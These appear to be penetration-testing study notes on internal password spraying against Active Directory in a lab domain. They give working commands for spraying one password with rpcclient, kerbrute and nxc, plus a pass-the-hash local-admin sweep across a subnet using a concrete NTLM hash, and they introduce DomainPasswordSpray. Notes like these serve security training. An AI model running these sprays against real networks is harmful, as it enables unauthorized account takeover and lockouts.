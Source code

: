 We first need to get a list with usernames (from Kerbrute)

Bash one-liner
```bash
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

Kerbrute
```bash
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```


With nxc

```bash
nxc smb 172.16.5.5 -u userlist.txt -p 'Welcome1' --continue-on-success | grep +
```

 Local Admin Spraying with CrackMapExec
 
```bash
nxc smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```

---

# Internal Password Spraying - from Windows

From a foothold on a domain-joined Windows host, the [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray) tool is highly effective. If we are authenticated to the domain, the tool will automatically generate a user list from Active Directory, query the domain password policy, and exclude user accounts within one attempt of locking out.

There are several options available to us with the tool. Since the host is domain-joined, we will skip the `-UserList` flag and let the tool generate a list for us. We'll supply the `Password` flag and one single password and then use the `-OutFile` flag to write our output to a file for later use.

